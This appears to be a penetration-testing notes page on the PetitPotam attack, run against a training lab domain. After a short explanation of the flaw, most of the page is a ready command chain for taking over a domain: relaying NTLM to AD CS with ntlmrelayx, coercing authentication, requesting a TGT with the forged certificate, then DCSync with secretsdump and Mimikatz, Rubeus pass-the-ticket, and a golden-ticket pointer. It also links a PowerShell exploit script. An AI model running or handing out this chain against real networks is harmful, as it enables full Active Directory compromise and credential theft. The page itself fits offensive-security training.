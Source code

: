 # PetitPotam

The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS-EFSRPC)

This technique allows an unauthenticated attacker to take over a Windows domain where **Active Directory Certificate Services (AD CS)**

A new digital certificate is made.This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

For more on [NTLM relaying to AD CS and the PetitPotam attack.](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

There is also a powershell version [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)

## Start nltmrelayx.py

```
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

## Run PetitPotam

```
python3 PetitPotam.py 172.16.5.225 172.16.5.5       
```

<figure><img src="../../../.gitbook/assets/PetitPotam.png" alt=""><figcaption><p>We get base64 encoded certificate</p></figcaption></figure>

## Request a TGT

```
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

## DCSync

Set the KRB5CCNAME and do:

```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

## OR getnthash.py

Use the AS-ReP encryption key from when we requested TGT

```
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

Then secretsdump:

```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```

## Rubeus

Alternatively, once we obtain the base64 certificate via **ntlmrelayx.py**, we could use the certificate with the _Rubeus_ tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.

```
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```

## Mimikatz

```
lsadump::dcsync /user:inlanefreight\krbtgt
```

Then Golden Ticket
